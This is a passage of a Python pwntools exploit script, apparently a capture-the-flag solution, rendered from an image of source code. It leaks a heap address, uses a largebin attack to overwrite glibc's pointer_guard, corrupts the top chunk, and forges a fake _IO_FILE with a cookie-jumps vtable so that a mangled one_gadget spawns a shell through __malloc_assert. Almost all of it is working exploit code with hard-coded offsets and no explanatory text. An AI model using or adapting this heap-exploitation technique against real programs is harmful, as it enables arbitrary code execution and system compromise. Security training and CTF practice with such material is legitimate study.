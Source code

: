```python
one = libc_base+ 0xde78c
lg("setcontext_addr")
lg("stderr")

edit(2,"a"*0x10)
show(2)
p.recvuntil("a" * 0x10)
heap_base = u64(p.recv(6).ljust(8, '\x00'))-0xad0
lg("heap_base")
#--------------------------pointer_guard attack----------------------
arena_large = libc_base + 0x1e0ff0
chunk0 = heap_base + 0x290
chunk2 = heap_base + 0xad0

dele(-4)
edit(2, p64(arena_large) * 2 + p64(chunk2) + p64(guard - 0x20))
add(5,0x430)
edit(2, p64(chunk0) + p64(arena_large) + p64(chunk0) * 2)# fd->chunk0 bk->largebin fd/bksize->chunk0
edit(-4, p64(arena_large) + p64(chunk2) * 3)# fd->largebin bk->chunk2 fd/bksize->chunk2
add(-4,0x418)
add(2,0x420)
#--------------------------topchunk_size attack----------------------
dele(5)
add(6, 0x420)
edit(5,'a'*0x428+p64(0x300))

#----------------------------fake IO---------------------------------
next_chain = 0
fake_IO_FILE =  4*p64(0)
fake_IO_FILE += p64(0)                   # _IO_write_base = 0
fake_IO_FILE += p64(0xffffffffffffffff)  # _IO_write_ptr = 0xffffffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0)                   # _IO_buf_base
fake_IO_FILE += p64(0)                   # _IO_buf_end
fake_IO_FILE = fake_IO_FILE.ljust(0x68, '\x00')
fake_IO_FILE += p64(next_chain)          # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x88, '\x00')
fake_IO_FILE += p64(heap_base)           # _lock = writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xc0, '\x00')
fake_IO_FILE += p64(0)                   # _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xd8, '\x00')
fake_IO_FILE += p64(IO_cookie_jumps+0x40)# vtable
fake_IO_FILE += p64(chunk2+0x10)         # rdi payload
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(ROL(one ^ (chunk0), 0x11))


edit(-4, fake_IO_FILE)

sla(">>",1)
sla("Index:",8)
sla("Size:",0x600)
# __malloc_assert
# _IO_cookie_write

p.interactive()
'''
0xde78c execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

```